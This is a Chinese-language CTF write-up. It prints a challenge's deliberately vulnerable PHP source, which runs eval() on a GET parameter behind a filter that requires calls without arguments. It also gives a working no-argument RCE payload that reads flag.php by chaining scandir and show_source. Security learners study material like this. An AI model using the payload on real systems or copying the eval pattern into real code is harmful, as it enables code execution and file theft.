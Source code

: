 悄悄话：这道题是第一周放出来了大概半小时又下线了，后面才放出来，当时我payload都写好了，可惜

源码如下👇

```
 <?php
highlight_file(__FILE__);
header('Content-Type: text/html; charset=utf-8');
error_reporting(0);
include(flag.php);
//当前目录下有好康的😋
if (isset($_GET['var']) && $_GET['var']) {
    $var = $_GET['var'];
   
    if (!preg_match("/env|var|session|header/i", $var,$match)) {
        if (';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $var)){
        eval($_GET['var']);
        }
        else die("WAF!!");
    } else{
        die("PLZ DONT HCAK ME😅");
    }
} 
```

这个正则匹配是经典的无参数RCE模式

使用php的内置函数读取文件即可

![](./images/1698936846-image.png)

当前目录存在flag.php

payload👇

```
?var=show_source(array_rand(array_flip(scandir(current(localeconv())))));
```

这里采用的方法是随机读取当前目录的文件，一直刷新就能读取到flag

![](./images/1698936992-image.png)

